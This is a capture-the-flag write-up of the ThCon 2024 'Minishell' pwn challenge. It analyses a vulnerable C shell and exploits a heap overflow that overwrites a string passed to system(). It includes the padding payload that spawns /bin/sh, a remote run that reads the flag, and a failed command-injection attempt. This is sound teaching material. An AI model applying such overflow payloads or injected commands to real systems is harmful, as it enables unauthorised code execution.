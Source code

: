 ```yaml
---
title: "Minishell (pwn) Write-Up CTF ThCon 2024"
summary: "Good introduction to basic heap buffer overflow through a custom vulnerable minimalistic shell in C"
date: 2024-04-07T12:32:53+0200
lastUpdate: 2024-04-07T12:32:53+0200
tags: ["pwn", "introduction", "write-up", "Supwn"]
author: ctmbl
draft: false
---
```


> **IMPORTANT**: You can also find this WU (and others), with **the source code** [on my GitHub](https://github.com/ctmbl/ctf-write-ups/tree/main/THCon-2024)

## Basics

First of all we don't have binaries associated with the challenge so I add to compile them:
```
gcc log.c -o log
gcc minishell.c -lcrypto -o minishell
```

Once this is done we can start reading the source code!

> **Note**:  
> Contrary to what I'm used to say and do, here there is no need to inspect the binary with `file`, `checksec`, `strings`, `ldd`, `ltrace` and `strace` because we compiled it ourself!  
> We can not ensure that it has been compiled the same way in remote, still, it can be useful to experiment a bit.

## Source code inspection

So let's read the code!
`log.c` is really simple, just a `main` function, it's a logging tool, it will write its arguments passed in command line to a log file, that's all.

`minishell.c` is really something else: 269 lines of code.  
When reading `C` code I always start looking globally at the function names and then I deep into the `main` function first.
Here it helped a lot, in `main` we quickly note that there is a bunch of variables initialization, some memory allocation and then a `while(1)`!
This is the infinite loop allowing the shell to always wait for user instructions.

We understand that the user is prompted for a string, which is then verified (some characters are forbidden in `commandAllowed` maybe there is something here) and parsed with `strtok`.
Then a bunch of `if else` identify which function to execute given the user command. At that point I could have start looking into each and every function to look for vulnerabilities.
But I didn't, I wanted to finish first the reading of `main` and I chose really well.

So we continue reading `main` to the last `else` (in case the command doesn't match any predefined strings), and there we have some really interesting stuff!
```C
             }else {
               char  *log = malloc(256 * sizeof(char));
                strcpy(log, "./log Error with command:");


                strcpy(arg, cmd);
                strcat(log, arg);
                system(log);

                printf("Unknow command, this event has been reported\n");
            }
```
Some `strcpy`, a `strcat` and above all a `system` call!

Of course it instantly caught my eye: if we were able to control the `log` variable, we could inject some commands here.
Unfortunately a predefined string is written in `log` and even if we control `cmd` it is just appended to `./log Error with command:` (remember `./log` is the second binary compiled at the beginning) by `strcat` and because special characters like `;` or `&&` are forbidden we cannot inject a 2nd command to `log` 😢

> **Note**:  
> However I noticed first that at the beginning of the `while` loop `buffer` is copied into `cmd` **before** verifying it with `commandAllowed`.  
> So I tested an exploit where I injected some forbidden command `aa; /bin/sh` which won't be executed **but will be written in `cmd` anyway**.  
> And then I inject a second one `a` which is allowed but unrecognized: the idea was that it didn't totally overwrite `cmd` which then would be something like `a\n; /bin/sh` and be appended to `log` then executed.  
> Unfortunately, `strcpy` (or other reason) adds a `\x00` between the "new" injection `a` and the "remaining" one in `cmd`, so it ends the string and even if the payload is there in the stack it isn't copied in `log` and wouldn't have been executed by `system` anyway.  
> So close!

So the real vulnerability is still here lying under our eyes: simply `arg` is not the same size as `cmd`, then when copying a long `cmd` into `arg` it overflows.
```C
    char* buffer = malloc(256 * sizeof(char));
    char* cmd = malloc(256 * sizeof(char));
    char  *arg = malloc(32 * sizeof(char));
```
Because `arg` is in the heap the question is then: what do we overflow?
And the answer is "if it's the first prompt, probably `log` which is alloc'd after `arg`", and finally we control `log`!!!

## Exploitation

Now `arg` is 32 bytes long, and because we're in the heap we will first overwrite the chunk header before overwriting `log`'s content.
To determine exactly the padding needed for our payload, either we know the heap chunk header size, or we use `gdb` (which is often really useful) but even simpler: a smart payload such as: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG` (generated with a `for` loop in python to avoid silly mistakes...) will easily do the job.  
We inject it and see:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG
sh: line 1: GGGGGGGG: command not found
sh: line 2: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG: command not found
sh: line 3: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDE: command not found
Unknow command, this event has been reported
spaceshell>
```
Victory! `GGGGGGGG` is executed as a command (I confirmed it with `ltrace ./minishell` and saw the execution of `system` with our payload and the result).
We then infer that an heap chunk header was 16 bytes long because our payload padding is `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF` which is 48 bytes, minus the 32 of `arg` we get 16 bytes for the header.

The final payload is of course: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh` and like that we get our shell 😉

Locally:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh
sh-5.2$ whoami
ctmbl
```
Remotely (I could have used `/bin/sh` too of course):
```
$ nc 20.19.241.70 3001
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFcat /home/ctf/flag.txt
THCON{G00d_0ld_0v3rfl0w}Unknow command, this event has been reported
```
🎉🎉🎉🎉

A good old overflow for sure 🙂, but a good reminder and a nice introduction to heap overflow overall 😉

## Resources

> If any doubts you can always contact me on Discord `ctmbl` or issue on my [GitHub](https://github.com/ctmbl/ctf-write-ups/issues) if you need more information or resources 😉

Links:
- what is a buffer overflow: https://en.wikipedia.org/wiki/Buffer_overflow#Example
- more about heap structure and exploitation: https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk
- `strcpy`: https://man7.org/linux/man-pages/man3/strcpy.3.html
- `strcat`: https://linux.die.net/man/3/strcat
- `strtok`: https://man7.org/linux/man-pages/man3/strtok.3.html
- `system`: https://man7.org/linux/man-pages/man3/system.3.html
